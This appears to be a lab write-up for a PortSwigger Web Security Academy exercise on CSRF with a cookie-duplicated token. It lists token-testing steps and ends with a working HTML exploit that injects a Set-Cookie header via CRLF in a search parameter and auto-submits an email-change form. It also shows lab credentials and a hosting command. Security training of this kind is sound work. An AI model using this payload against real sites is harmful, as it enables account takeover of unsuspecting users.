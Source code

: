 Vulnerable parameter - email change functionality
Goal - exploit CSRF to change email address
Creds - wiener:peter

In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters 

Testing CSRF Tokens:
1. Remove the CSRF token and see if application accepts request
2. Change the request method from POST to GET
3. See if csrf token is tied to user session

Testing CSRF Tokens and CSRF cookies:
1. Check if the CSRF token is tied to the CSRF cookie
   - Submit an invalid CSRF token
   - Submit a valid CSRF token from another user
2. Submit valid CSRF token and cookie from another user

In order to exploit this vulnerability, we need to perform 2 things:
1. Inject a csrf cookie in the user's session (HTTP Header injection) - satisfied
2. Send a CSRF attack to the victim with a known csrf token

- as it can be seen, it doesn't matter the value of the cookie as soon as are equal
![[Pasted image 20240922012718.png]]
![[Pasted image 20240922012739.png]]

- we will inject to cookie header trough the search set cookie value which will be equal to the csrf token (first tab)
![[Pasted image 20240922013015.png]]

- HTML payload (form action= https://HOST/POST (change email request - first tab) | 
               img src= https://HOST/POST(injected header - second tab) )
```
<html>
    <body>
        <h1>Hello World!</h1>
        <form action="https://0a25003904014c148065ad2c00ae00af.web-security-academy.net/my-account/change-email" method="post">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="hacked">
        </form>

        <img src="https://0a25003904014c148065ad2c00ae00af.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrf=hacked%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
</html>
```

- Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```

